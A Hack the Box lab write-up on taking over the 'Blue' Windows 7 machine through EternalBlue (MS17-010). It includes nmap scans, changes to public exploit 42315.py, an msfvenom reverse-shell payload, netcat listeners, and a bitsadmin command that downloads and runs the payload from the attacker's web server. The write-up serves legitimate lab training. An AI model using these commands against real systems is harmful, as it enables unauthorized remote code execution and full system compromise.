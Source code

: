 ```yaml
---
title: Blue
tags: windows
description: Write-up for Hack the Box - Blue
---
```


![image](assets/79369688-5e3d2280-7f1f-11ea-9975-eaf1c4591c5c.png)

## Overview

Blue is a Windows box that was vulnerable to the infamous EternalBlue exploit which was leaked by the Shadow Brokers in 2017. Using the nmap script functionality I was able to determine the box was vulnerable to CVE-2017-0144 / MS17-010, a flaw that allows attackers to execute arbitrary code on a target system by sending specially crafted messages to a SMBv1 server. An existing exploit written in python was used to get a reverse shell as 'nt authority/system'.

> Eternal blue works by exploiting multiple SMBv1 bugs that when chained together allow the attacker to write and execute shellcode to gain access to the target. More information can be found [here](https://www.sentinelone.com/blog/eternalblue-nsa-developed-exploit-just-wont-die/)

## Enumeration

**Software**

* Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)

**Port Scan**

```
nmap -vv -Pn -sT -A -p- 10.10.10.40 -oN /mnt/data/boxes/blue/_full_tcp_nmap.txt
```

* 135/tcp - Microsoft Windows RPC
* 139/tcp - Microsoft Windows netbios-ssn
* 445/tcp - Microsoft Windows SMB
* 49152/tcp - Microsoft Windows RPC
* 49153/tcp - Microsoft Windows RPC
* 49154/tcp - Microsoft Windows RPC
* 49155/tcp - Microsoft Windows RPC
* 49156/tcp - Microsoft Windows RPC
* 49157/tcp - Microsoft Windows RPC

**Vulnerability Scan**

```
nmap 10.10.10.40 -p 445 -script=smb-vuln*
```

![image](assets/80120412-f14a0e00-8558-11ea-8509-1e602484561e.png)

## Steps (User)

The EternalBlue exploit grants access as nt authority/system, there is no user step.

## Steps (root/system)

Running a search in searchsploit shows a few results.

![image](assets/80120831-906f0580-8559-11ea-83c2-b93d63d02fd6.png)

I went with 42315.py which required a couple modifications:

Line 36: change username to guest

```
USERNAME = 'guest'
PASSWORD = ''
```

Line 910: Modify the smb_pwn function. This specifies the source of the file to transfer (our reverse shell payload), the destination (root of C:), the name of the destination file (rshell.exe), and the location on the target box to execute rshell.exe

```
def smb_pwn(conn, arch):

    smbConn = conn.get_smbconnection()
    smb_send_file(smbConn, '/root/boxes/blue/rshell.exe', 'C', 'rshell.exe')
    service_exec(conn, r'cmd /c c:\\rshell.exe')
```

I generated a reverse shell payload using msfvenom and started a netcat listener (rlwrap nc -lvnp 4200)

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.8 LPORT=4200 -f exe -o rshell.exe
```

> Note: rlwrap fixes the arrow key functionality for windows reverse shells.

With the modifications complete, I ran the exploit and received a callback and shell as 'nt authority\system'

```
./42315.py 10.10.10.40 samr
```

![image](assets/80130700-0af25200-8567-11ea-9e77-fdb0630d37cd.png)

## Steps (root/system) #2

Alternatively I could have used bitsadmin to download the payload from my machine via http and excute it to create the reverse shell. I didn't have much luck with the python http server so I used apache. 

I copied the rshell.exe file created earlier to web server root

```
cp rshell.exe /var/www/html/
```

I created a netcat listener (rlwrap nc -lvnp 4200) and started the apache service.

```
systemctl start apache2.service
```

I updated 42315.py to reflect the changes needed to use bitsadmin to download and execute rshell.exe

```
def smb_pwn(conn, arch):

    smbConn = conn.get_smbconnection()
    service_exec(conn, r'cmd /c bitsadmin /transfer pwnage /download /priority high http://10.10.14.8/rshell.exe c:\windows\temp\rhell.exe')
    service_exec(conn, r'cmd /c c:\\windows\\temp\\rshell.exe')
```

I ran the exploit and receved a callback and shell as 'nt authority\system'

```
./42315.py 10.10.10.40 samr
```

![image](assets/80132732-1c892900-856a-11ea-9b56-87d893abe5fc.png)
